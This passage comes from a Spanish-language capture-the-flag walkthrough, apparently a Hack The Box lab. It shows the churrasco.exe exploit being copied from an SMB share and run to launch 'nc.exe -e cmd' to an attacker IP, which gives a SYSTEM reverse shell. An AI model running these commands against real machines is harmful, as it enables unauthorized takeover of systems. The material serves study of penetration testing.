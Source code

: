Desde el equipo víctima, nos copiaremos el binario en una ruta que podamos ejeuctar el binario.

```powershell
C:\Temp>copy \\10.10.16.5\smbFolder\churrasco.exe C:\Temp\churrasco.exe
copy \\10.10.16.5\smbFolder\churrasco.exe C:\Temp\churrasco.exe
        1 file(s) copied.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\Temp

01/26/2025  06:38 AM    <DIR>          .
01/26/2025  06:38 AM    <DIR>          ..
01/26/2025  06:37 AM            31,232 churrasco.exe
               1 File(s)         31,232 bytes
               2 Dir(s)   1,318,244,352 bytes free
```

En una nueva terminal nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Desde nuestro equipo atacante, deberemos de disponer del binario `nc.exe` y levantar nuevamente un servidor SMB para compartir este otro binario.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Sun Jan 26 05:30:47 2025  nc.exe
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el equipo víctima, ejecutaremos dos veces el binario `churrasco.exe` indicándole que ejecute el binario que estamos compartiendo a través de un recurso compartido, al ejecutar el binario nos proporcionará una Reverse Shell.

```powershell
C:\Temp>churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"

C:\Temp>churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
```

Verificamos que hemos logrado la conexión y que somos el usuario `NT AUTHORITY\SYSTEM`. Por otro lado, comprobamos que logramos visualizar las flags de **user.txt** y **root.txt**.
